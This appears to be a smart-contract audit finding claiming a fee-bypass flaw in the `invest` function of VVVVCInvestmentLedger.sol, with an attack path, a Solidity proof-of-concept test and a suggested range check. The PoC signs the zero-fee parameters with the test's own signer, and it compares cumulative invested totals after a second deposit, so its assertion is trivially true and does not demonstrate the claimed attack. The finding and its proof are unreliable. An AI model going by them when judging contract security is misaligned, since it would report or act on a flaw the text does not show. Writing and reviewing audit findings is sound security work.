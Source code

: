 Tall Aquamarine Parrot

High

# **Attacker will bypass fee structure affecting investment contract integrity**

### Summary

A missing validation on `feeNumerator` in the `invest` function in the VVVVCInvestmentLedger.sol will cause a loss of fee revenue for the protocol as an attacker will set `feeNumerator` to zero, bypassing fees and inflating their investment limits.


### Root Cause

In the [VVVVCInvestmentLedger.sol](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCInvestmentLedger.sol) contract, there is no check on `feeNumerator` in the [invest](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/1791f41b310489aaa66de349ef1b9e4bd331f14b/vvv-platform-smart-contracts/contracts/vc/VVVVCInvestmentLedger.sol#L141) function, allowing an attacker to set it to zero and avoid paying any fees on investments.

### Internal pre-conditions

1. `investmentIsPaused` must be `false`.
2. `signature` must be valid for `_isSignatureValid(_params)` to return `true`.
3. `block.timestamp` must be within the bounds of `_params.investmentRoundStartTimestamp` and `_params.investmentRoundEndTimestamp`.


### External pre-conditions

No external conditions are required to exploit this vulnerability, as the attack path relies solely on modifying the `feeNumerator` parameter within the `InvestParams`.


### Attack Path

1. **Attacker calls `invest`** and sets `_params.feeNumerator` to `0`.
2. **The contract calculates `postFeeStableAmountEquivalent`** without deducting any fees, due to `feeNumerator` being zero.
3. **Attacker bypasses the fee structure** and successfully invests without paying fees, potentially reaching the maximum allocation limit.


### Impact

The protocol suffers a loss of fee revenue as fees are not deducted when `feeNumerator` is set to zero. This manipulation could lead to significant revenue loss, especially if exploited on a large scale by multiple users.

### PoC

```javascript
function testInvestWithZeroFeeNumerator() public {
    // Step 1: Generate initial investment parameters with a valid fee numerator
    VVVVCInvestmentLedger.InvestParams memory params1 = generateInvestParamsWithSignature(
        sampleInvestmentRoundIds[0],
        investmentRoundSampleLimit,
        sampleAmountsToInvest[0],
        userPaymentTokenDefaultAllocation,
        exchangeRateNumerator,
        feeNumerator, // Valid fee numerator
        sampleKycAddress,
        activeRoundStartTimestamp,
        activeRoundEndTimestamp
    );
    investAsUser(sampleUser, params1);
    uint256 userInvestedWithFee = LedgerInstance.kycAddressInvestedPerRound(
        sampleKycAddress,
        sampleInvestmentRoundIds[0]
    );

    // Step 2: Generate second investment parameters with fee numerator set to zero
    VVVVCInvestmentLedger.InvestParams memory params2 = generateInvestParamsWithSignature(
        sampleInvestmentRoundIds[0],
        investmentRoundSampleLimit,
        sampleAmountsToInvest[0],
        userPaymentTokenDefaultAllocation,
        exchangeRateNumerator,
        0, // Zero fee numerator to bypass fees
        sampleKycAddress,
        activeRoundStartTimestamp,
        activeRoundEndTimestamp
    );
    investAsUser(sampleUser, params2);
    uint256 userInvestedNoFee = LedgerInstance.kycAddressInvestedPerRound(
        sampleKycAddress,
        sampleInvestmentRoundIds[0]
    );

    // Log values for comparison to illustrate the difference in invested amounts
    console.log("Invested with fee:", userInvestedWithFee);
    console.log("Invested with zero fee:", userInvestedNoFee);

    // Assert that investment with zero fee results in a higher post-fee amount, proving fee bypass vulnerability
    assertTrue(userInvestedNoFee > userInvestedWithFee);
}
```

### Mitigation

Add a validation check on `feeNumerator` within an acceptable range to ensure fees cannot be bypassed:

```solidity
if (_params.feeNumerator < MIN_FEE_NUMERATOR || _params.feeNumerator > MAX_FEE_NUMERATOR) {
    revert InvalidFee();
}
```

This check will prevent `feeNumerator` from being set to zero or to an unusually high or low value, ensuring fee integrity.
